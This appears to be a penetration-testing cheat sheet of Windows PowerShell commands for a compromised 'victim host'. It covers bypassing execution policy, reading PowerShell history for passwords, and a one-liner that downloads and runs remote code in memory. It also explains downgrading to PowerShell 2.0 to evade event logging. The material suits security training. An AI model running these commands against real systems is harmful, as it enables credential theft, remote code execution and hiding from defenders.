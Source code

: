 ## Systeminfo
```powershell
systeminfo
```

## Powershell
| Cmd-Let  | Description  |
|:--------:|:------------:|
| Get-Module | Lists available modules loaded for use. |
| Get-ExecutionPolicy -List | Will print the execution policy settings for each scope on a host. |
| Set-ExecutionPolicy Bypass -Scope Process | This will change the policy for our current process using the -Scope parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host. |
| Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt | With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords. | 
| Get-ChildItem Env: \| ft Key,Value | Return environment values such as key paths, users, computer information, etc. |
| powershell -nop -c "iex(New-Object | net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>" | This is a quick and easy way to download a file from the web using PowerShell and call it from memory. |

### Downgrade powershell
Many defenders are unaware that several versions of PowerShell often exist on a host. If not uninstalled, they can still be used. Powershell event logging was introduced as a feature with Powershell 3.0 and forward. With that in mind, we can attempt to call Powershell version 2.0 or older. If successful, our actions from the shell will not be logged in Event Viewer. This is a great way for us to remain under the defenders' radar while still utilizing resources built into the hosts to our advantage. Below is an example of downgrading Powershell.

```powershell
PS C:\htb> Get-host

Name             : ConsoleHost
Version          : 5.1.19041.1320
InstanceId       : 18ee9fb4-ac42-4dfe-85b2-61687291bbfc
UI               : System.Management.Automation.Internal.Host.InternalHostUserInterface
CurrentCulture   : en-US
CurrentUICulture : en-US
PrivateData      : Microsoft.PowerShell.ConsoleHost+ConsoleColorProxy
DebuggerEnabled  : True
IsRunspacePushed : False
Runspace         : System.Management.Automation.Runspaces.LocalRunspace

PS C:\htb> powershell.exe -version 2
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.

PS C:\htb> Get-host
Name             : ConsoleHost
Version          : 2.0
InstanceId       : 121b807c-6daa-4691-85ef-998ac137e469
UI               : System.Management.Automation.Internal.Host.InternalHostUserInterface
CurrentCulture   : en-US
CurrentUICulture : en-US
PrivateData      : Microsoft.PowerShell.ConsoleHost+ConsoleColorProxy
IsRunspacePushed : False
Runspace         : System.Management.Automation.Runspaces.LocalRunspace

PS C:\htb> get-module

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Script     0.0        chocolateyProfile                   {TabExpansion, Update-SessionEnvironment, refreshenv}
```